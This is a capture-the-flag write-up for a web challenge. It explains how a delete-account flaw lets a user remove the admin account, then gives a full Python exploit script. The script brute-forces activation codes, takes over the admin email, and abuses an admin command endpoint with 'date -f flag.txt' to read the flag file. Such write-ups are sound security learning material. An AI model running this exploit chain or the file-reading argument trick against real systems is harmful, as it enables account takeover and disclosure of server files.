


# Cybercrime Society Club Germany
> You are agent Json Bourne. Your mission: Hack this new cybercrime website before it is too late.

## About the Challenge
We have been given a website and a source code (You can download the source code [here](cybercrime-society-club-germany.zip))



There are 2 features, login and signup. Here is the preview of the signup feature


And here is the preview of login feature


## How to Solve?
This is a stolen challenge from `Cyber Security Rumble 2022 - Robert is a gangsta` (You can see the writeup [here](https://www.norelect.ch/writeups/csr2022/robertisagansta/)). But there is a difference where we're not only just create an account, but we need to set the email to `admin@cscg.de`

```python
def is_admin(self, email):
    user = self.db.get(email)
    if user is None:
        return False

    #TODO check userid type etc
    return user["email"] == "admin@cscg.de" and user["userid"] > 90000000
```

And to bypass this we create a random user and then delete our account with the admin account by sending this HTTP request

```
POST /json_api HTTP/1.1
Host: example
Cookie: auth=28379856-e66b-4121-a8fb-5b6d90f68c87
...

{"action":"delete_account","data":{"email":"example@mail.com","test":"admin@cscg.de"}}
```

Why we can delete the admin account too? Let's take a look at delete account function

```python
def api_delete_account(data, user):
    if user is None:
        return error_msg("not logged in")

    if data["data"]["email"] != user["email"]:
        return error_msg("Hey thats not your email!")

    # print(list(data["data"].values()))
    if delete_accs(data["data"].values()):
        return success_msg("deleted account")
```

This code utilizes `data["data"].values()` to delete user accounts. Consequently, if we input two sets of key values in the JSON, the program will delete these two accounts.

And after we delete the admin account, create another user and then change the user email to `admin@cscg.de`. And voilà


I am using the source code from this [blog](https://www.norelect.ch/writeups/csr2022/robertisagansta/) to solve the problem, and I have made some edits.

```python
import requests

s1 = requests.Session()

print("Creating account")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "create_account",
    "data": {
        "email": "info@example.com",
        "password": "whatever",
        "groupid": ".0E",
        "userid": "9998",
        "activation": ["{:0>4}".format(i) for i in range(10000)]
    }
})

print("Login")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "login",
    "data": {
        "email": "info@example.com",
        "password": "whatever"
    }
})

print("Delete admin")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "delete_account",
    "data": {
        "email": "info@example.com",
        "test": "admin@cscg.de"
    }
})


s2 = requests.Session()

print("Creating account again")
req1 = s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "create_account",
    "data": {
        "email": "info@example.com",
        "password": "whatever",
        "groupid": ".0E",
        "userid": "9998",
        "activation": ["{:0>4}".format(i) for i in range(10000)]
    }
})

print("Login")
s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "login",
    "data": {
        "email": "info@example.com",
        "password": "whatever"
    }
})

print("Change email to admin")
s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "edit_account",
    "data": {
        "email": "admin@cscg.de"
    }
})

print("Executing command")
r2 = s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "admin",
    "data": {
        "cmd": ["date", "-f", "flag.txt", "-u"]
    }
})

print(r2.json())
```



```
ALLES!{js0n_b0urn3_str1kes_ag4in!}
```